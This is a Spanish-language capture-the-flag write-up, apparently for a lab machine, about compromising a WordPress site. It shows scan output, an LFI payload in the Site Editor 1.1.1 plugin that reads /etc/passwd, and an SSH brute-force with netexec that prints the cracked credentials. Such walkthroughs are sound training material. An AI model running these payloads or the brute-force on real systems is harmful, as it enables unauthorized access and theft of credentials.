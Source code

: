 ```python
 | [...]
 | [!] The version is out of date, the latest version is 1.3
 | [!] Directory listing is enabled
 | [...]
[i] Plugin(s) Identified:
[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
```

La existencia del archivo `xmlrpc.php` hace el sitio más vulnerable:
`XML-RPC` es una característica de wordpress que permite que los datos se transmitan, con HTTP actuando como el mecanismo de transporte y XML como el mecanismo de codificación. [fuente](https://www.hostinger.com/es/tutoriales/que-es-xmlrpc-php-wordpress-por-que-desactivarlo)

Hay una posible vulnerabilidad LFI, a través del tema `twentytwentyfour`

Sobre el ultimo plugin se encontró el siguiente exploit:
```python
$searchsploit site-editor 1.1.1
------------------------------------------------- -----------------------------
 Exploit Title                                   |  Path
------------------------------------------------- -----------------------------
WordPress Plugin Site Editor 1.1.1 - Local File  | php/webapps/44340.txt
------------------------------------------------- -----------------------------
```
## Engaño
El último exploit sugería un payload como el siguiente:
```python
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Dado que el código está de la siguiente manera:
```php
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}
```

Validamos la vulnerabilidad de la siguiente forma:
```python
$curl http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd | grep /bin/bash
[...]
root:x:0:0:root:/root:/bin/bash
curiosito:x:1000:1000::/home/curiosito:/bin/bash
```

  Conociendo un usuario de la máquina host, se validó su existencia en la administración de wordpress, aunque con resultados negativos porque el panel del login arroja el siguiente mensaje:
	**Error**: El nombre de usuario **curiosito** no está registrado en este sitio. Si no estás seguro de tu nombre de usuario, prueba con tu dirección de correo electrónico en su lugar.
## Explotación
Se creó un diccionario para iniciar un ataque de fuerza bruta y se ejecutó:
```python
$touch my_rockyou.txt && head -n 500 /usr/share/wordlists/rockyou.txt > my_rockyou.txt
$nxc ssh asucar.dl -u curiosito -p my_rockyou.txt --ignore-pw-decoding
[...]
SSH         172.17.0.2      22     asucar.dl        [+] curiosito:password1 (Pwn3d!) Linux - Shell access!
```